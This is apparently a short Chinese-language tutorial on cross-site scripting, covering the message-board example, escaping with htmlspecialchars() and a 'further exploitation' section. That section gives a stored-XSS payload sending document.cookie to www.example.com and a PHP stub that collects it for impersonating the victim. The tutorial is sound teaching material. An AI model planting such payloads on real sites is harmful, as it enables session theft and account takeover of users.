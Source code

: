 # 初探XSS

## XSS的原理

XSS（跨站脚本攻击）的攻击方式是：用户输入一段恶意文本，网页将它显示出来。

一般的思路是这样：找到一个XSS漏洞，提交恶意文本，然后把url发给其他用户，以便进行下一步操作。

一个很经典的例子：留言板。

假设网站没有对输入进行**过滤**，那么所有人都能看到留言。这时候我可以提交一个留言，写成这样：

```html
<script>alert('XSS!')</script>
```

那么当用户打开这个链接时，浏览器将会是这个情况：
![XSS](https://p1.bqimg.com/567571/7ef86c3451c28940.png)

如果有XSS漏洞，那就相当于我们可以利用`js`随意修改网页。例如把正常网页修改为诈骗网页、把广告嵌入页面、打开攻击者设好的链接、向服务器提交转账等请求。

## XSS的防范

将可能引发XSS的字符进行转义。例如`"`替换成`&quot;`。  
php提供了自带的函数：`htmlspecialchars()`。

## 进一步利用

在XSS漏洞的基础上，进行进一步利用。

假设之前的留言板给每个登录的用户一个cookie，叫做`user`。我们作为恶意攻击者，希望取得某个用户的cookie。

由于之前找到了留言板的XSS漏洞，我们可以构造这样一条留言：

```html
<script>window.location.href="http://www.example.com/csrf.php?cookie="+document.cookie</script>
```

这样，当用户访问留言板的时候，这段js代码会被执行，用户将跳转到`http://www.example.com/csrf.php?cookie={用户在留言板的cookie}`。

在`www.example.com/csrf.php`中这样写：
```
<?php 
    $usercookie=$_GET['cookie'];
    //TODO: 把cookie保存下来，进一步利用
?>
```

这样，我们的服务器就得到了用户在留言板的cookie。

由于拥有了cookie，我们可以**把自己伪装成这个用户**。

